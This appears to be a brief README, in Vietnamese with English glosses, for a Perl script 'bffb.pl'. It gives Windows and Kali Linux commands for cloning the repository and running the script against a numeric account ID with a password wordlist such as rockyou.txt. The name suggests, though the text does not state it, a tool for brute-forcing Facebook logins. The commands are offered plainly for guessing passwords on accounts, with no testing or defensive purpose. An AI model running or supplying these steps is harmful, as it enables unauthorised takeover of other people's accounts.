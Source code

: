 # Hevin1811

Anh em nào dùng WINDOWS thì hãy tải PERL về máy để chạy nhé.
(If you use WINDOWS, download PERL to your computer to run it)

*WINDOWS:

Download source code and open terminal:

 Trỏ đến thư mục chứa tệp 'bffb.pl" 
 (Point to the directory containing the file 'bffb.pl'

perl bffb.pl <ID> <wordlist>
 
 [+] Ex: perl bffb.pl 10009876655428 C:\Bffb\wordlist\passwords.txt
  
  
  *KALI LINUX AND PARROT OS:
  
  open terminal:
  
  git clone https://github.com/sonvan1811/Hevin1811.git
  
  cd bffb
  
  chmod +x bffb.pl
  
  perl bffb.pl <ID> <wordlist>
  
  [+] Ex: perl bffb.pl 10009876655428 /usr/share/wordlists/rockyou.txt
  
  
